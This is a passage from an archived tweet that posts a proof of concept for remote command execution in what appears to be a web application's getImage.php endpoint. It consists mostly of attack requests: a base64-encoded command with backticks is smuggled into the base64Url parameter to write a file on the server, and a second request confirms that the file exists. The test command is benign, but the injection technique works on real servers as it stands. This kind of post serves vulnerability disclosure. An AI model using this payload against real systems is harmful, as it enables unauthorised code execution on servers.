 POC:
[1] GET /objects/getImage.php?base64Url=YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=&amp;format=png

[2] GET /objects/tess.txt

Base64 Encode:
YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=

`echo TEST RCE &gt; tess.txt` https://t.co/405TCHrIVe
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Etb5h8DVEAAWnan.png" alt="http://pbs.twimg.com/media/Etb5h8DVEAAWnan.png"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+Etb5i08VgAI4AH4.png" alt="http://pbs.twimg.com/media/Etb5i08VgAI4AH4.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---
